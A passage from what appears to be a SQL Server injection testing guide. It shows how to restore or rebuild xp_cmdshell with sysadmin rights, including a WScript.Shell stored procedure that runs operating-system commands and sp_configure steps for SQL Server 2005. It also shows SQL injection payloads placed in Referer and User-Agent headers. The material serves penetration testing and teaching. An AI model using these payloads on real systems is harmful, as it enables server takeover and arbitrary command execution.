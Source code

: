 All books and papers describing the security best practices for SQL
Server recommend disabling xp_cmdshell in SQL Server 2000 (in SQL
Server 2005 it is disabled by default). However, if we have sysadmin
rights (natively or by bruteforcing the sysadmin password, see below),
we can often bypass this limitation.

On SQL Server 2000:

  - If xp_cmdshell has been disabled with sp_dropextendedproc, we can
    simply inject the following code:



    sp_addextendedproc 'xp_cmdshell','xp_log70.dll'

  - If the previous code does not work, it means that the xp_log70.dll
    has been moved or deleted. In this case we need to inject the
    following code:



    CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
      DECLARE @result int, @OLEResult int, @RunResult int
      DECLARE @ShellID int
      EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
      IF @OLEResult <> 0 SELECT @result = @OLEResult
      IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
      EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
      IF @OLEResult <> 0 SELECT @result = @OLEResult
      IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
      EXECUTE @OLEResult = sp_OADestroy @ShellID
      return @result

This code, written by Antonin Foller (see links at the bottom of the
page), creates a new xp_cmdshell using sp_oacreate, sp_oamethod and
sp_oadestroy (as long as they haven't been disabled too, of course).
Before using it, we need to delete the first xp_cmdshell we created
(even if it was not working), otherwise the two declarations will
collide.

On SQL Server 2005, xp_cmdshell can be enabled by injecting the
following code instead:

    master..sp_configure 'show advanced options',1
    reconfigure
    master..sp_configure 'xp_cmdshell',1
    reconfigure

### Example 6: Referer / User-Agent

The REFERER header set to:

`Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [SQL CODE]--`

Allows the execution of arbitrary SQL Code. The same happens with the
User-Agent header set to:

`User-Agent: user_agent', 'some_ip'); [SQL CODE]--`
